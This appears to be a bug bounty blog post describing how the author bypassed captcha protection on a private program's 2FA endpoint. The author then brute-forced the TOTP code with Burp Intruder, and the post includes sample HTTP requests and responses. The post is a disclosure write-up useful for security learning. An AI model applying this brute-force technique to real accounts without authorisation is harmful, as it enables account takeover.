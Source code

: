 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: 2FA Bypass
description: 2fa bypass in a private program
image: https://i.ibb.co/pftczhd/2fa-bypass.png
optimized_image: https://i.ibb.co/pftczhd/2fa-bypass.png
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## How I bypassed 2fa in a 3 years old private program!

When I was invited to this private program say "private.com" I was bit discouraged as it was 3 years old program with only 3 eligible scope and I thought that many hackers must have hammered it hard and finding a bug here would just be a waste of time.

But any way I started IDK why ...FFF..

![Alt Text](https://i.ibb.co/s1XLQtp/idk.gif)

So after doing some dirsearch I found 2 open redirects in like ~ 3 mins...But got a duplicate when I submitted the report.

Then I jumped to app.private.com to try some auth flaws and with a hope that no one ever looked here even though it's a 3 year old program...just in case ?

![Alt Text](https://media.giphy.com/media/8GclDP2l4qbx6/giphy.gif)

After trying some things I decided to try some rate limit checks on login and 2fa things ...Both login and 2fa where protected from google captcha :/

So I tried to remove the captcha header from the request to see if web app is blocking any client side changes...and login request gave me "Invalid Captcha"...But 2fa didn't !

- Request with no google captcha headers

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"123456"}
```
- Response 

```
HTTP/1.1 401 Unauthorized
Date: Thu, 18 Jun 2020 06:08:12 GMT
Content-Type: application/json
Content-Length: 36
Connection: close
Access-Control-Allow-Origin: https://app.private.io
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Wrong code! Try again."}
```
No "Invalid Captcha" response now.

![Alt Text](https://media.giphy.com/media/DffShiJ47fPqM/giphy.gif)

Time to spin up the intruder and brute the code !...I used burp pro as I can change the threads. You can use turbo intruder or a simple Python/Go code with concurrent requests to brute it.

But web app uses Google Authenticator so we have only like ~ 59 secs to get the code 

So I used 888 threads with 500 steps ( I could make it more fast and stable with some basic go codes but anyway I only had to give a poc to show that this attack works).

And in grep added the "Try again" to be checked in response 

![Alt Text](https://i.ibb.co/48xDJFM/attack-prep3.png)

![Alt Text](https://i.ibb.co/b3hLFPV/attack-prep2.png)

After like ~ 7 or 9 tries I filtered the response and one request managed to hit the correct TOTP (just some correct time game)

- Request

```
POST /2fa/verify HTTP/1.1
Host: api.private.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Bearer ff72216846ff4f858ab16f31a9b0eb0f765a4XXXXXXXXXXX3
Content-Length: 17
Origin: https://app.private.com
Connection: close
Referer: https://app.private.com

{"code":"XXXXXX"}
```

- Response 

```
HTTP/1.1 200 OK
Date: Thu, 18 Jun 2020 06:12:08 GMT
Content-Type: application/json
Content-Length: 38
Connection: close
Access-Control-Allow-Origin: https://app.private.com
Access-Control-Allow-Methods: GET, POST, PUT, DELETE, PATCH, OPTIONS
Access-Control-Allow-Credentials: true

{"message":"Verification successfull"}
```
Submited the report and got the bounty $_$

![Alt Text](https://media.giphy.com/media/gTURHJs4e2Ies/giphy.gif)

- Takeaway
  - Just try even if at first sight it dosen't make sense
  - Don't Give Up
